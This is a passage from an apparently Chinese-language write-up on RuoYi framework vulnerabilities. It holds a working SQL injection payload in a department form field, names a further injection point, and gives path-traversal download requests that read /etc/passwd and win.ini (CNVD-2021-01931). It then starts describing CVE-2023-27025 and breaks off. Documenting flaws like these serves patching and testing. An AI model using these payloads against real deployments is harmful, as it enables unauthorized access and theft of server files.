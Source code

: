 ```
DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#

```

### 注入点9 /tool/gen/createTable（V-4.7.1-V-4.7.5）  
  
参考  
https://blog.takake.com/posts/7219/#2-3-10-%E6%80%BB%E7%BB%93  
# 0x04 CNVD-2021-01931任意文件下载  
#### 漏洞简介  
  
登录后台后可以读取服务器上的任意文件。  
#### 影响版本：  
  
RuoYi<4.5.1  
#### 漏洞复现  
  
用4.5.0版本  
直接搜索关键字，download找到具体的controller  
路径  

```
/common/download/resource

```


```
/common/download/resource?resource=/profile/../../../../etc/passwd
/common/download/resource?resource=/profile/../../../../Windows/win.ini

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicCmaBEH6CeYLibJoMkWiaV7n3EpB7Wa4DOib0E7S7arJHUOicqNOwZQ7REA/640?wx_fmt=png&from=appmsg "")  
# 0x05 CVE-2023-27025 若依任意文件下载  
## 漏洞简介  
  
该漏洞是若依（RuoYi）4.7.6 版本中存在的 **权限绕过 + 任意文件下载**  
 组合漏洞。攻击者通过后台管理接口添加恶意定时任务，修改系统配置文件路径，绕过下载功能的白名单限制，最终实现任意文件下载。漏洞本质是 **权限控制缺失**  
（允许低权限用户操作敏感接口）和 **路径校验不严**  
（未对动态修改的配置路径进行二次校验）的综合结果。  
## 影响版本  
- **若依（RuoYi）<= 4.7.6**  
## 利用条件  
1. **权限要求**  
：  
  